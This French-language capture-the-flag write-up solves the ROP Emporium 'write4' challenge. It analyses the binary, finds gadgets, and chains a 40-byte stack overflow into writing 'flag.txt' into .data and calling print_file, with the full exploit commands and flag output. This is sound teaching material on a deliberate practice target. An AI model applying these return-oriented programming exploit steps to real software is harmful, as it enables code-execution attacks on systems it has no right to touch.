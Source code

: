# write4 challenge

https://ropemporium.com/challenge/write4.html

> wget https://ropemporium.com/binary/write4.zip <br>
> unzip write4.zip <br>
> checksec write4 <br>
> strings write4 <br>

Rien de très utile ne peut être tiré de ces commandes, il n'y a littéralment aucune chaine à exploiter dans cet exécutable, comme précisé dans l'énoncé. Peut-être qu'avec **gdb** nous obtiendrons plus d'informations:

> gdb write4 <br>
> info func <br>

Nous remarquons toujours notre fonction contenant le buffer vulnérable `pwnme`, *externe* et résolue par **PLT** comme dans le challenge précédent. Il y aussi la fonction *externe* cible `print_file`.

Au niveau des fonctions *interne*, on repère `usefulFunction` et son appel à `print_file@plt` avec son unique argument qui est chargé dans le registre `%rdi` depuis l'addresse *0x4006b4*. Avec **gdb**:
> x/s 0x4006b4 <br>
> 0x4006b4: "nonexistent"

En utilisant **rabin2**:
> rabin2 -z write4 <br>
> rabin2 -S write4

Nous pouvons localiser l'argument passé à la fonction `print_file@plt` par `usefulFunction` dans la section **.rodata**; L'utilisation de **rabin2** nous permet d'identifier les permissions associés à chacunes des sections (même si c'est toujours les mêmes..), et cette dernière est *read-only*. Comme suggéré dans le challenge, nous devrions plutôt utiliser une section sur laquelle le programme peut écrire; nous utiliserons donc la section **.data** qui a les permissions pour lire et écrire.
> rabin2 -S write4 <br>
> [Sections] <br>
> <br>
> nth paddr        size vaddr       vsize perm type        name <br>
> ――――――――――――――――――――――――――――――――――――――――――――――――――――――――――――― <br>
> 23  0x00001028   0x10 0x00601028   0x10 -rw- PROGBITS    .data

## Inspecteur gadget

D'un autre côté, nous avons la fonction `usefulGadgets`, qui ne contient rien d'autre que l'instruction `mov` pour copier le contenu du registre `%r15` à l'addresse contenue dans `%r14`:
> 0x0000000000400628 <+0>:&emsp;mov %r15,(%r14)

Cela sera notre ROP gadget, mais pas l'unique ! Comme pour le challenge **callme**, nous aurons besoin d'un gadget pour `pop`er les valeurs à charger dans les registres `%r14` et `%r15`. En utilisant **ropper**:
> ropper --file write4 --search "pop" <br>
> 0x0000000000400690:&emsp;pop r14; pop r15; ret; <br>
> 0x0000000000400693:&emsp;pop rdi; ret;

Il existe d'ailleur au autre gadget pour `pop` une valeur dans le registre `%rdi`, par convention le premier paramètre d'appel de fonction. 

## La solution

En nous basant sur la solution proposée pour le challenge **callme**:
1. Le binaire pour l'overflow (40 bytes pour atteindre la *return address* dans la stack, comme d'habitude):
> binject -of ovf.bin -ns 40 A

2. Le `pop` gadget, pour charger l'addresse de **.data** dans `%r14`, et la chaîne de caractère pour le paramètre, dans `%r15`:
> binject -of flg.bin -x64 400690 -x64 601028 -s flag.txt

3. Le `mov` gadget pour charger le contenu de `%r15` à l'addresse contenue par `r%14`:
> binject -of mem.bin -if flg.bin -x64 400628

4. Le `pop` gadget pour charger l'addresse de **.data** dans `%rdi`:
> binject -of prm.bin -x64 400693 -x64 601028

5. L'appel de la fonction `print_file` (dans la section **.plt** puisque pas encore résolue):
> binject -of cll.bin -if prm.bin -x64 400510

6. On assemble le tout:
> binject -of ola.bin -if ovf.bin -if mem.bin -if cll.bin

Et on est bon:
> Thank you! <br>
> ROPE{a_placeholder_32byte_flag!} <br>
> Segmentation fault